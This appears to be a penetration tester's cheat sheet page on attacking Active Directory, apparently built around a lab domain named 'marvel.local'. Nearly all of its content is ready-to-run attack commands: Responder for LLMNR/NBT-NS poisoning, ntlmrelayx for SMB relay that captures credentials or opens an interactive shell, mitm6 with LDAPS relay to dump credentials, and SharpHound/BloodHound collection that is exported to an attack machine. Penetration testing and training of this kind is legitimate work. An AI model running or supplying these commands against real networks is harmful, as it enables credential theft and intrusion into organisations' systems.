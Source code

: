 ## **Active Directory**

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md" %}

### LLMNR/NBT-NS

```
responder -I eth0 -rdwv #Credential default capture settings
```

### SMB Relay Attack

```
python3 /home/kali/.local/bin/ntlmrelayx.py -tf targets.txt -smb2support #Capture creds via SMB (Signing must be 'disabled/not required')

python3 /home/kali/.local/bin/ntlmrelayx.py -tf targets.txt -smb2support -i # Gain a interactive shell with "-i"
```

### IPv6 Attack

```
https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/

sudo mitm6 -d marvel.local #Run mitm6 first to IPv6 server

python3 /home/kali/.local/bin/ntlmrelayx.py -6 -t ldaps://192.168.68.122 -wh fakewpad.marvel.local -l lootme # Captures IPv6 request to capture & dump creds to lootme
```

### AD Recon

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#active-directory-attacks" %}

&#x20;\#asPeas for enumeration scripting

{% embed url="https://github.com/61106960/adPEAS" %}

#### PowerView

```powershell
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993 # Cheat Sheet
```

#### Bloodhound

```powershell
AzureHound for Azure Active Directory # Install-Module -name Az -AllowClobber | Install-Module -name AzureADPreview -AllowClobber

SharpHound for local Active Directory # run the collector on the machine using SharpHound

"Invoke-BloodHound -CollectionMethod All  -Domain <DomainName> -ZipFileName <file.zip>" # copy zip over to attack machine to run in neo4j DB

```
